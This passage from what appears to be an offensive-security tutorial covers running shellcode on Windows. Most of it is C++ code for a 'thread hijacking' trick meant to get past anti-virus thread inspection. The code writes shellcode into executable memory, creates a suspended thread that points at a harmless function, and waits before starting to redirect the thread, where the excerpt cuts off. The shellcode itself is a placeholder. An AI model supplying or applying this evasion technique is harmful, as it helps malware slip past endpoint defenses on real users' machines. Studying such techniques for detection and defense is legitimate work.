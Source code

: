 ```c++
    // close the thread handle
    CloseHandle(hThread);
}
```

## Thread hijacking

In the examples above, the new threads are pointing to our shellcode when they are created.  Anti-virus solutions can receive notifications when new threads are created and are able to inspect the memory the thread is pointing to.  If they find the thread is pointing to shellcode, it can block the new thread from starting and raise an alert.  A potential workaround for this is to create the thread in a suspended state but pointing to a benign location.  After some time (hopefully after the anti-virus has scanned the memory region), the context of the thread can be changed to point at the shellcode and resumed.
```c++
#include <Windows.h>

void dummy() {
    // do nothing
}

int main()
{
    unsigned char shellcode[] = "...";

    // allocate a region of memory
    auto hMemory = VirtualAlloc(
        NULL,
        sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );

    // write the shellcode into memory
    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        GetCurrentProcess(),
        hMemory,
        &shellcode,
        sizeof(shellcode),
        &bytesWritten
    );

    // create a suspended thread pointing at a dummy function
    DWORD threadId = 0;
    auto hThread = CreateThread(
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)&dummy,
        NULL,
        CREATE_SUSPENDED,
        &threadId
    );

    // little sleep
    Sleep(5 * 1000);

    // get current thread's context
    CONTEXT ctx = { 0 };
    ctx.ContextFlags = CONTEXT_ALL;

    GetThreadContext(hThread, &ctx);

```